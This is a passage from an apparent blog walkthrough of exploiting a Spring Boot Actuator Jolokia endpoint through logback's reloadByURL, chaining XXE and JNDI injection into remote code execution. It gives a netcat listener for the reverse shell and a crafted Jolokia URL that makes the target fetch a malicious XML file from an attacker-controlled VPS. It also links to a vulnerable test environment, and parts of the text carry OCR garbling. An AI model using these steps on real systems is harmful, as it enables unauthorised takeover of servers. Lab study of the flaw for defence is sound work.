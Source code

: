 **Step 5:** Listen to the port of the bouncing shell

Generally, use nc to listen to the port and wait for the rebound shell

```
nc -lv 443
```

[](https://www.blogger.com/#)**Step 6: **Load the log configuration file from an external URL

- If the target successfully requests example.xml and marshalsec also receives the target request, but the target does not request JNDIObject.class, the high probability is that the JDK version of the target environment is too high, resulting in the failure of JNDI utilization.

Replacing the actual your-vps-ip address to access the URL triggers the vulnerability:

|  |

/jolokia/exec/ch .qos .logback .classic :Name=default,Type=ch .qos .logback .classic .jmx .JMXConfigurator /reloadByURL/http:!/!/your-vps-ip!/example.xml

 |

[](https://www.blogger.com/#)

#### Vulnerability Principle:

- Directly accessing the URL that can trigger the vulnerability is equivalent to calling the method of the ch.qos.logback.classic.jmx.JMXConfiguratorclass through jolokiareloadByURL

- The target machine requests the URL address of the external log configuration file to obtain the content of the malicious xml file.

- The target machine uses saxParser.parse to parse the xml file (this leads to the xxe vulnerability)

- The external JNDI server address is set using the dependent tag in the logbackxml fileinsertFormJNDI

- The target machine requests a malicious JNDI server, resulting in JNDI injection and RCE vulnerability

[](https://www.blogger.com/#)

#### Vulnerability Analysis:

- [spring boot actuator rce via jolokia](<https://www.veracode.com/blog/research/exploiting-spring-boot-actuators>)

[](https://www.blogger.com/#)**Vulnerable environment:\
**\
[repository/springboot-jolokia-logback-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springboot-jolokia-logback-rce)

Normal access:

```
http://127.0.0.1:9094/env _
```

